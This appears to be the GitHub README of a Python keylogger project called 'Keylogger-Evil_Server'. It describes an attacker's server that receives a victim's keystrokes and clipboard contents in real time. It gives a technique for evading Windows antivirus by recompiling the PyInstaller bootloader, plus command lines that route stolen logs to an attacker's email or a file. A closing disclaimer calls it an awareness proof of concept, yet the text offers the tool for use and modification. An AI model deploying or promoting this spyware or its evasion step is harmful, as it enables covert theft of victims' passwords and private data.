 <div align="center">

![272844130-8c3b2b16-ae6d-467b-82a3-0e8c0b89c46a-removebg-preview](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/312b2d20-ecb1-42b9-9d54-2382833a7735)

<img src="https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/8f263795-f5f4-418f-a918-d4dea0c992cd" height=275 align=left>
<img src="https://img.shields.io/badge/Language%20-Python3-green.svg">
<img src="https://img.shields.io/badge/License%20-GPL 3.0-blue.svg">
<img src="https://img.shields.io/badge/Type%20-Script-violet.svg"">
<img src="https://img.shields.io/badge/OS%20-Windows, Linux-red.svg"">
<img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square">
</div>

<h3>Evil keylogger server (Covert Channel)</h3>

* ***Feel free to modify it as you see fit and it can be improved in many ways to suit your needs.***

This project focuses on a malicious server that remotely receives keyboard logs and data saved on the victim's clipboard, emulating an illegal covert channel between the victim and the attacker. When the victim runs the keylogger, the first thing it will do is connect to the attacker's remote server and send the logs in real time.


It has been carefully designed to present the keyboard logs in the most user-friendly way possible.

****(Remember to add your local or proxy IP address in the keylogger script)****

### Evading the antivirus (Windows 10/11):
Simple technique: Compile the PyInstaller bootloader locally using Microsoft C/C++ compiler and then use pyinstaller to compile the keylogger code.

# Optionals 

#### Send the keyboard logs to the attacker's e-mail address

`./app.py 192.168.32.34 -e smtp.gmail.com`

![Peek 12-01-2024 00-33](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/6d4b9199-5b1a-41ac-a82c-cf6d8b7bcd31)

#### Write the keystroke logs to a file

`./app.py 192.168.18.20 -f keylogs.txt`

![Peek 12-01-2024 00-34](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/b4470ef2-1f89-4823-b7d2-aa012f3a698c)

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept and is intended to raise awareness about cybersecurity
